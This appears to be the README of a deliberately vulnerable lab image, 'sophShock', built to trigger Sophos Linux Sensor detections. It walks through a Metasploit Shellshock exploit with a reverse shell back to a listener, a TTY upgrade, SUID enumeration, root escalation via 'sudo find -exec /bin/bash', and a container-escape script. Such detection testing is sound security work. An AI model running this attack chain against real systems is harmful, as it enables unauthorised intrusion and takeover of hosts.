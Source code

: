 # sophShock

This image is for generating Sophos Linux Sensor detections.
For testing purposes only, advised not to run this in a public facing manner.

#Walk Thru

#Metasploit:
- search shellshock
- use exploit/multi/http/apache_mod_cgi_bash_env_exec

- set RHOST <ip addr>
- set RPORT 8080
- set LHOST <ip addr>
- set LPORT <reverse listening port>
- set TARGETURI /cgi-bin/shockme.cgi 
- run 

# establish tty
python -c 'import pty; pty.spawn("/bin/bash")'

# switch to user with sudo privileges
Perhaps one of the users has something interesting?
getent group sudo


# find files with SUID bit set
find / -perm -4000 2>/dev/null

# exploit find binary
sudo find . -exec /bin/bash -i \; -quit
(interactive shell detection from SLS)

# run escape.sh from root directory
(userland container escape detection)
 - outputs are in /output



#references:
- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
- https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
